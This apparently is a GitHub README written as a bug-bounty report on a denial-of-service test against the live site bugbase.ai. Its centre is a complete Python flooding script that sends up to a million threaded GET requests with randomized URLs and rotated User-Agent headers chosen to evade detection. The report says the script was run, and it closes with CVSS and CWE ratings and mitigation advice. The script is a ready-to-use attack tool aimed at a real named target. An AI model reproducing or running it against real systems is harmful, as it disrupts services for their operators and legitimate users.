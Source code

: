 # Do_you_like_bass
Bugbase Ddos

### Report: DDoS through Resource Exhaustion Using `doublebass.py`

#### Overview

This report details a Distributed Denial of Service (DDoS) attack executed through resource exhaustion using a Python script (`doublebass.py`). The attack targets the website `https://bugbase.ai`, aiming to overload its resources and deny legitimate access. The script generates a high volume of GET requests using randomly generated URLs, leveraging multi-threading to maximize impact.

#### Attack Description

**Script: `doublebass.py`**
- The script sends a large number of GET requests to the target URL with randomized suffixes.
- It utilizes multi-threading to create parallel requests, significantly increasing the load on the target server.
- User-Agent headers are rotated to mimic requests from different devices and platforms, making detection harder.
- The script can be configured to repeat the attack a specified number of times (set to 1,000,000 in the example).

```python
import requests
import threading
import random
import string
import time

# Base URL pattern with a placeholder for the random suffix
base_url_pattern = "https://bugbase.ai/dashboard/reports/{suffix}"

# Function to generate random suffixes
def generate_random_suffix(length=24):
    return ''.join(random.choices(string.ascii_lowercase + string.digits, k=length))

# List of user agents to rotate through
user_agents = [
    'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.64 Safari/537.36',
    'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36',
    'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/14.0.3 Safari/605.1.15',
    'Mozilla/5.0 (iPhone; CPU iPhone OS 14_2 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/14.0 Mobile/15E148 Safari/604.1',
    # Add more user agents as needed
]

# Number of times to repeat the attack
repeat = 1000000  # Set this to a large number for a heavier attack simulation

# Function to perform the GET request
def perform_get_request(base_url_pattern, headers, i):
    try:
        random_suffix = generate_random_suffix()
        url = base_url_pattern.format(suffix=random_suffix)

        response = requests.get(url, headers=headers)

        # Print out the response code, final URL after redirect, and the payload used
        print(f"Attempt {i + 1}: Requested URL {url} - Final URL: {response.url} - Status Code: {response.status_code}")
    except Exception as e:
        print(f"Error occurred: {e}")

# Function to handle threading
def get_with_threads(base_url_pattern, repeat):
    threads = []
    for i in range(repeat):
        headers = {
            'User-Agent': user_agents[i % len(user_agents)],
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
            'Connection': 'keep-alive',
        }

        if len(threads) >= 100:  # Manage thread count
            for thread in threads:
                thread.join()
            threads = []

        thread = threading.Thread(target=perform_get_request, args=(base_url_pattern, headers, i))
        threads.append(thread)
        thread.start()

     #   time.sleep(0.001)  # Optional delay to manage rate-limiting

    # Wait for all remaining threads to complete
    for thread in threads:
        thread.join()

# Example usage
if __name__ == "__main__":
    get_with_threads(base_url_pattern, repeat)
```
  
**Observed Behavior:**
- The attack led to HTTP 429 errors (`Too Many Requests`), indicating the server's rate-limiting mechanisms were triggered.
- Successful status code 200 responses were also observed, indicating some requests bypassed the rate-limiting temporarily.

#### Images and Script Evidence

1. **Evidence of Attack Execution:**
   ![PXL_20240909_095222744.jpg](https://github.com/DeadmanXXXII/Do_you_like_bass/blob/PXL_20240909_095222744.jpg)
   
   This image shows the browser displaying an HTTP 429 error (`Too Many Requests`) during the attack.

2. **Script Execution Output:**
   ![Screenshot_20240909-105211.png](https://github.com/DeadmanXXXII/Do_you_like_bass/blob/Screenshot_20240909-105211.png)
   
   This screenshot captures the script's execution on a mobile device, showing numerous GET requests sent to `https://bugbase.ai` and corresponding status codes.

#### Impact Assessment

**Potential Impact:**
- **Resource Depletion:** The flood of requests can deplete server resources, including CPU, memory, and bandwidth, potentially causing downtime.
- **Service Disruption:** Legitimate users may be unable to access the website, leading to a loss of business, reputation damage, and potential financial losses.

**CVSS Score:**
- **Base Score:** 7.5 (High)
- **Vector:** AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H
- **Explanation:** The attack is remotely exploitable with low complexity, requiring no authentication. It primarily affects the availability of the target website without compromising confidentiality or integrity.

**CWE ID:**
- **CWE-400: Uncontrolled Resource Consumption ('Resource Exhaustion')**
  - **Description:** The vulnerability occurs when an attacker can send a large number of requests or cause significant processing overhead, leading to resource exhaustion on the server.

#### Conclusion

The `doublebass.py` script effectively simulates a DDoS attack through resource exhaustion, impacting the availability of `https://bugbase.ai`. The attack triggers rate-limiting mechanisms but continues to overload the server, causing intermittent service disruptions. To mitigate such attacks, implementing stronger rate-limiting, IP blacklisting, and using a content delivery network (CDN) with DDoS protection are recommended.

#### Recommendations:
- **Rate Limiting:** Strengthen the existing rate-limiting rules to block repetitive requests more aggressively.
- **DDoS Mitigation Services:** Implement DDoS protection services such as Cloudflare or AWS Shield to absorb and filter malicious traffic.
- **Server Hardening:** Optimize server configurations to handle a higher volume of requests without resource depletion.
